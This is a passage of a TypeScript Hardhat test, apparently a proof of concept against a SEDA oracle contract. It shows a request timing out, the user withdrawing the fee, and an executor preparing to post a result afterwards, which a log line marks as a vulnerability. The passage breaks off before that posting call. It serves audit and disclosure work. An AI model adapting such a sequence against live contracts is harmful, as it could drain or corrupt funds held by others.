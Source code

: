 ```typescript
    
    await postRequestTx.wait();
    console.log("Request posted");
    
    // Get the actual requestId derived from the request inputs
    const requestId = await deriveRequestId(baseRequest);
    console.log(`Generated requestId: ${requestId}`);
    
    // Check if request is pending
    const pendingRequests = await sedaCore.getPendingRequests(0, 10);
    const isPending = pendingRequests.some(req => req.id === requestId);
    console.log(`VERIFICATION: Request is pending: ${isPending}`);
    expect(isPending).to.be.true;
    
    // Get contract balance after request
    const contractBalanceAfterRequest = await ethers.provider.getBalance(await sedaCore.getAddress());
    console.log(`STATE CHECK: Contract balance after request: ${ethers.formatEther(contractBalanceAfterRequest)} ETH`);
    
    // Set the timeout period for the request to expire 
    const timeoutPeriod = await sedaCore.getTimeoutPeriod();
    console.log(`Current timeout period: ${timeoutPeriod} seconds`);
    
    // Fast-forward time to simulate timeout
    console.log(`STEP 2: Simulating timeout by advancing time`);
    await time.increase(timeoutPeriod + BigInt(10));
    
    // User withdraws their fee
    console.log("STEP 3: User withdrawing fees after timeout");
    const balanceBefore = await ethers.provider.getBalance(user.address);
    console.log(`STATE CHECK: User balance before withdrawal: ${ethers.formatEther(balanceBefore)} ETH`);
    
    const withdrawTx = await sedaCore.connect(user).withdrawTimedOutRequest(requestId);
    await withdrawTx.wait();
    
    const balanceAfter = await ethers.provider.getBalance(user.address);
    console.log(`STATE CHECK: User balance after withdrawal: ${ethers.formatEther(balanceAfter)} ETH`);
    
    // Verify user got their fee back (minus gas costs)
    expect(balanceAfter).to.be.gt(balanceBefore - ethers.parseEther("0.01")); 
    
    // Get contract balance after withdrawal
    const contractBalanceAfterWithdrawal = await ethers.provider.getBalance(await sedaCore.getAddress());
    console.log(`STATE CHECK: Contract balance after withdrawal: ${ethers.formatEther(contractBalanceAfterWithdrawal)} ETH`);
    
    // Check if request is still pending
    const pendingAfterWithdrawal = await sedaCore.getPendingRequests(0, 10);
    const isStillPending = pendingAfterWithdrawal.some(req => req.id === requestId);
    console.log(`VERIFICATION: Request is no longer pending: ${!isStillPending}`);
    expect(isStillPending).to.be.false;
    
    // Generate a valid result proof
    console.log("STEP 4: Executor generating valid result proof");
    const result = {...data.results[0], drId: requestId};
    const proof = data.resultProofs ? data.resultProofs[0] : data.proofs[0];
    
    console.log("STEP 5: Executor posting result after timeout and withdrawal");
    console.log("VULNERABILITY: This should fail but will succeed due to the vulnerability");
```